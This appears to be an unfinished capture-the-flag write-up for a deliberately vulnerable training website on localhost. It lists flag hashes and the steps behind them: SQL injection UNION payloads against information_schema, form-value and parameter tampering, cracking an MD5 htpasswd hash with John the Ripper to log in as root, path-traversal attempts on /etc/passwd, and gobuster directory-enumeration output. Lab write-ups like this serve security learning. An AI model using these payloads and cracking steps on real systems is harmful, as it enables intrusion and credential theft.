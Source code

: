 ### Flag 00 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

The first vulnerability we found is the possibility to cheat very easily on a survey hosted on the website.
The server assumes the values as being from 1 to 10, but you can send the request with a much higher grade.

http://localhost:13080/?page=survey
Inspect option of Ben
Change value to 11 (negative didn't work)
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

### Flag 01 (WIP)

5 UNION SELECT COUNT(_), NULL FROM users --
5 UNION SELECT COUNT(_), first_name FROM users --

THIS LISTS ALL TABLE NAMES

```
6 UNION SELECT NULL, table_name FROM information_schema.tables--
```

this lists all column names

```
6 UNION SELECT NULL, column_name FROM information_schema.columns--
```

this lists all columns of the table users, we're using hex because strings are being escaped

```
6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x7573657273--
```

listing all columns gave us this :

````
ID: 5 UNION SELECT NULL, column_name FROM information_schema.columns--
First name:
Surname : FLAG
``` which is sus

but after finding the table that this columbs belong to
```
ID: 5 UNION SELECT NULL, table_name FROM information_schema.columns WHERE column_name=0x464C4147--
First name:
Surname : INNODB_SYS_TABLES
```

and trying to get FLAG from it

```
5 UNION SELECT NULL, FLAG FROM INNODB_SYS_TABLES--
```
we get
```
Table 'Member_Sql_Injection.INNODB_SYS_TABLES' doesn't exist
```


### Flag 02 1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

http://localhost:13080/index.php?page=recover
Change webmaster@borntosec.com to whatever
1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

### Flag 03 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

http://localhost:13080/index.php?page=feedback
Name: a
0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

### Flag 04 (WIP)

Hashcrack this http://localhost:13080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f

### Flag 05 (WIP)

a weirdly loaded image http://localhost:13080/index.php?page=media&src=1

### Flag 06 (WIP)

Wtf?
http://localhost:13080/index.php?page=

### Flag 07 (WIP)

cookie I_am_admin

### Flag 08 d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

http://localhost:8080/whatever/

htpasswd file

`root:437394baff5aa33daa618be47b75cb49`

Cracking the Password Using John the Ripper

To crack the password from the `.htpasswd` file using John the Ripper, run the following command:

```bash
../john/run/john --format=Raw-MD5 htpasswd
````

gives us

```
Enabling duplicate candidate password suppressor
qwerty123@       (root)
```

then

http://localhost:8080/admin/

connect using root and qwerty123@

### FLAG 09 (WIP)

http://localhost:8080/index.php?page=../../../../etc/passwd

ALMOST

http://localhost:8080/index.php?page=../../../../../var/log/httpd/access.log

STILL NOPE

### FLAG 10 (WIP)

SEARCH IMAGE, IMAGE NUMBER 5

comes up to

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

### TO NOTE

➜ utenret gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt -b 200,975

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://localhost:8080/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: KaliLists/dirb/big.txt
[+] Negative Status codes: 200,975
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors (Status: 301) [Size: 193] [--> http://localhost/errors/]
/fonts (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js (Status: 301) [Size: 193] [--> http://localhost/js/]
/whatever (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================

```

```
